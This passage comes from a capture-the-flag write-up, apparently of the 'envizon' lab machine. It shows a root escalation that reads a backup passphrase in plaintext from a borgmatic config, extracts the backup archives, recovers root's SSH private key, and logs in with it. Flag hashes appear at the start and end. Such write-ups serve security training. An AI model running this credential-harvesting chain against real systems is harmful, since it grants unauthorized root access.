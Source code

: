 ```
7953ba7f83b3fd00279627de052bc078
```

## Hint: We always backup our stuff

So I tried to look at /var/backup but nothing interesting. Lets' take a look at /etc and /opt. And in /etc we found borgmatic a backup software and we got a `config.yaml` inside.

```yaml
# Where to look for files to backup, and where to store those backups.
# See https://borgbackup.readthedocs.io/en/stable/quickstart.html and
# https://borgbackup.readthedocs.io/en/stable/usage/create.html
# for details.
location:
    # List of source directories to backup (required). Globs and
    # tildes are expanded.
    source_directories:
        - /root

    # Paths to local or remote repositories (required). Tildes are
    # expanded. Multiple repositories are backed up to in
    # sequence. See ssh_command for SSH options like identity file
    # or port.
    repositories:
        - /var/backup

retention:
    # Retention policy for how many backups to keep.
    keep_daily: 7
    keep_weekly: 4
    keep_monthly: 6

storage:
    encryption_passcommand: 'echo 4bikDP8iaCEvgYksIKPUmACEwGYPcnlQ'
```

We got the encryption password and the location of the backups are locally stores. Let's try to get those.

```bash
borgmatic list # List archives

/var/backup: Listing archives
envizon-2020-09-30T23:25:30.466049   Wed, 2020-09-30 23:25:31 [b2aae5e7803b2134e2dc913b10b03430a4b892c3b32dd2f1556175f51e85c8bc]
envizon-2020-09-30T23:26:23.900026   Wed, 2020-09-30 23:26:25 [d027cf90321085f4cf1b1f1883c7287051f8350568ae1ecf421b52fb906f91a3]

borgmatic extract --archive envizon-2020-09-30T23:25:30.466049 # Extract archives
```

We got .ssh in the extracted root folder. And it has an unsecured private ssh key.

Let's transfer it to our system and get it done. 

ssh -i id_rsa root@envizon.thm

```
40963d170c949f8325783c552e150236
```